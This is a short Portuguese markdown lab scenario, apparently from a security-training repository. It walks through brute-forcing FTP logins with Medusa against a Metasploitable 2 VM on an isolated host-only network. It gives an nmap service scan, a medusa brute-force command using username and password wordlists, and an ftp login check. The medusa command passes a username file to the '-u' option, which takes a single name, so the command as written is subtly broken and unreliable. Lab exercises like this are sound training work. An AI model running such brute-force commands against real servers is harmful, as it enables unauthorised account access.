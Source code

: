 # Cenário: Força Bruta FTP com Medusa

## Objetivo
Testar resistência de autenticação FTP por força bruta usando Medusa em ambiente isolado.

## Ambiente
- Alvo: `192.168.56.102` (Metasploitable 2)
- Atacante: Kali Linux (`192.168.56.101`)
- Rede: Host-Only (ex.: 192.168.56.0/24)
- Ferramenta: `medusa`
- Wordlist: `wordlists/common-user.txt` | `wordlists/common-pass.txt

## Passos / Comandos
1. Reconhecimento:
```bash
nmap -sV -p 21 192.168.56.102 -oA scans/nmap-ftp
```

2. Força bruta com Medusa:
```bash
medusa -h 192.168.56.102 -u wordlists/common-user.txt -P wordlists/common-pass.txt -M ftp -f -T 6
```

3. Validação:
```bash
ftp 192.168.56.102
```
